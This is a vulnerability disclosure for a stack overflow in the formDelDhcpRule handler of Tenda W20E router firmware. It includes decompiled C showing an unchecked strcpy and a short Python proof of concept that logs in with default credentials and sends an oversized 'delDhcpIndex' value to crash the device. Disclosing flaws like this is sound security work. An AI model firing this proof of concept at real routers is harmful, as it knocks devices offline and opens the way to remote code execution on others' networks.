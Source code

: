 ## * Tenda W20E stack vulnerability

### * Version

V15.11.0.6 (US_W20EV4.0br_V15.11.0.6(1068_1546_841)_CN_TDC)

### * Firmware
[https://www.tenda.com.cn/download/detail-2707.html](https://www.tenda.com.cn/download/detail-2707.html)




### * Vulnerability Detail

In function formDelDhcpRule, the content obtained by the program from the parameter "delDhcpIndex" is passed to __src, 
and then the __src is directly copied into the indexs stack through the strcpy function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void formDelDhcpRule(webs_t wp,char *path,char *query)

{
  char *__src;
  int iVar1;
  char msg [32];
  char indexs [128];
  char *indexSet;
  
  memset(indexs,0,0x80);
  msg._0_4_ = 0;
  msg._4_4_ = 0;
  msg._8_4_ = 0;
  msg._12_4_ = 0;
  msg._16_4_ = 0;
  msg._20_4_ = 0;
  msg._24_4_ = 0;
  msg._28_4_ = 0;
  __src = websGetVar(wp,"delDhcpIndex","0");
  strcpy(indexs,__src); //here is overflow
  delete_rules_in_list("dhcps.static.list",indexs,"\t");
  iVar1 = CommitCfm();
  if (iVar1 != 0) {
    sprintf(msg,"module_id=%d,op=%d",3,6);
    send_msg_to_netctrl(3,msg);
  }
  outputToWebs(wp,"1");
  return;
}
```

### * POC
```python
import requests

cmd  = b'delDhcpIndex=' + b'A' * 800 


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/delDhcpRules/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()


```
